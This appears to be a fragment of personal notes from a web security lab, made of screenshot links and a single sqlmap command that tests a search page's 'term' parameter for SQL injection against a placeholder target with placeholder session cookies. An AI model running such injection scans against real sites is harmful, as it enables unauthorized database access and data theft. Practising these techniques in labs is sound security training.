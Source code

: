 ![](Pasted%20image%2020250222220158.png)
```js
sqlmap -v -u 'https://TARGET.NET/search?term=x&organizeby=DATE&journalist=&cachebust=1656138093.57' -p "term" --batch --cookie="_lab=YESYESYESYES; session=YESYESYESYES" --random-agent --level=2 --risk=2
```

![](Pasted%20image%2020250222220231.png)
